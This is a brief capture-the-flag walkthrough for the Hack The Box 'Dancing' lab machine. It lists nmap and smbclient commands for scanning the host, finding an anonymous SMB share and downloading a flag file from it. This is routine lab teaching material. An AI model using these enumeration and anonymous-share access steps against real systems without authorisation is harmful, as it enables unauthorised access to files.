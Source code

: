 # 💃 Hack The Box – Dancing Walkthrough

> Status: Completed ✅  
> Difficulty: Easy  
> OS: Windows  
> Points: 20

---
## 🧰 Tools Used
- Nmap
- smbclient
- Kali Linux

## 🔎 Nmap Enumeration
- nmap -sCV 10.10.xx.xx
- Port 445: SMB open
- Port 135: RPC

## 🛠️ Server Message Block(SMB) Enumeration
- smbclient -L 10.10.xx.xx
- Anonymous login enabled
- Found share: WorkShares

## 💥 Exploit
- Used credentials found to log in or access flag path.
* smbclient //10.10.xx.xx/WorkShares -N
- Download files:

- ls
- cd Amy.J
- ls
- cd ..
- cd James.P
- ls
- get flag.txt


